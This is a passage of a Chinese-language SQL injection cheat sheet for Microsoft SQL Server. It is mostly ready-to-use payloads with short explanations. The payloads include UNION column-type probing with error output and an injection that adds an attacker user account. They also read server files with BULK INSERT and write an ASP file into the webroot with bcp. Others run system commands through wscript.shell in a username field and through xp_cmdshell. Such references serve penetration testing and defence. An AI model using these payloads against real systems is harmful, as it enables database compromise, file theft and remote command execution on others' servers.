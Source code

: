 错误！ – 第二列不是 integer 类型。

11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 –-

没有错误 – 第二列是 string 类型。

11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 –-

报错！ – 第三列不是 integer 类型。

…Microsoft OLE DB Provider for SQL Server error ‘80040e07
’
Explicit conversion from data type int to image is not allowed.

你在遇到 union 错误之前会遇到 convert() 错误！ 所以从 convert() 开始，再用 union。

简单的注入（MSO+）

'; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*

有用的函数 / 信息收集 / 存储过程 / Bulk SQL 注入说明

@@version（MS）

数据库的版本和关于 SQL Server 的详细信息。这是个常量，你能把它当做一个列来 select，而且不需要提供表名。同样，你也能在 insert、update 语句或者函数里使用它。

INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)

Bulk insert（S）

（补充说明：bulk insert 是 SQL Server 的一个命令）

插入一个文件的内容到表中。如果你不知道应用的内部路径，可以读取 IIS（仅限 IIS 6）的元数据库文件（metabase file，%systemroot%system32inetsrvMetaBase.xml）然后找出应用的路径。

Create table foo( line varchar(8000) )

bulk insert foo from ‘c:inetpubwwwrootlogin.asp’
Drop 临时表，并重复另一个文件。

BCP（S）

（补充说明：BCP 是 SQL Server 的一个工具）

写文本文件。使用这个功能需要登录。

bcp “SELECT * FROM test..foo” queryout c:inetpubwwwrootruncommand.asp -c -Slocalhost -Usa -Pfoobar

SQL Server 中的 VBS 和 WSH（S）

开启 ActiveX 支持的情况下，你可以在 SQL Server 中使用 VBS 和 WSH 脚本编程。

declare @o int
exec sp_oacreate ‘wscript.shell’, @o out
exec sp_oamethod @o, ‘run’, NULL, ‘notepad.exe’
Username: ‘; declare @o int exec sp_oacreate ‘wscript.shell’, @o out exec sp_oamethod @o, ‘run’, NULL, ‘notepad.exe’ —

执行系统命令、xp_cmdshell（S）

众所周知，在 SQL Server 2005 中默认是禁用的。你需要 Admin 权限。.

EXEC master.dbo.xp_cmdshell ‘cmd.exe dir c:’

